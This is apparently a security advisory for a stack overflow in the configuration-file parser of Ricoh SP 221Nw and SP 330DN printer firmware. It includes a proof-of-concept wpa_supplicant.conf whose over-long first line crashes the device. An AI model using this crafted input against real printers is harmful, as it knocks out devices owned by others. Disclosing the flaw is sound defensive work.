

# Ricoh Printer SP 221 Vulnerability

This vulnerability lies in the `wpa_supplicant_conf_parser` function which influences the lastest version of **Ricoh Printer SP 221Nw** and **Ricoh Printer SP 330DN**. The lastest firmware version of this product is [Printer Firmware SP 220Nw/SP 221Nw Ver.1.06, released date: 05/21/2020](http://support.ricoh.com/bb/html/dr_ut_e/re2/model/sp221/sp221.htm) and [Printer Firmware SP 330DN Ver.1.11, released date: Released Date: 11/10/2020](http://support.ricoh.com/bb/html/dr_ut_e/re2/model/sp221/sp221.htm).

## Vulnerability description

In function `wpa_supplicant_conf_parser`, the program opens the file named `/etc/wpa_supplicant.conf` and reads in the content of the file using the function `os_file_get`. The content of the configuration file is stored on a heap variable named `filecontent` on line 48 and line 58 in the picture below. Then it reads in each line of the file content onto the stack using `strncpy` on line 79. However, the code does not check each line's length, which could lead to stack overflow vulnerabilities.

So by controling the content of the configuration file, the attacker can easily perform a **Deny of Service(DoS) Attack** or **Remote Code Execution(RCE)** with carefully crafted overflow data.



## POC

Any valid configuration file whose first line's length is greater than `0x38` can cause a DoS on this device. Example Configuration file `/etc/wpa_supplicant.conf` is listed below.

```python
# allow frontend (e.g., wpa_cli) to be used by all users in 'wheel' group # This is a looooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooong line
ctrl_interface=DIR=/var/run/wpa_supplicant GROUP=wheel
#
# home network; allow all valid ciphers
network={
	ssid="home"
	scan_ssid=1
	key_mgmt=WPA-PSK
	psk="very secret passphrase"
}
#
# work network; use EAP-TLS with WPA; allow only CCMP and TKIP ciphers
network={
	ssid="work"
	scan_ssid=1
	key_mgmt=WPA-EAP
	pairwise=CCMP TKIP
	group=CCMP TKIP
	eap=TLS
	identity="user@example.com"
	ca_cert="/etc/cert/ca.pem"
	client_cert="/etc/cert/user.pem"
	private_key="/etc/cert/user.prv"
	private_key_passwd="password"
}
```

## Timeline

2021-06-04 report to CVE

## Acknowledgment

Credit to [@Ainevsia](https://github.com/Ainevsia), [@peanuts](https://github.com/peanuts62) and [@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.
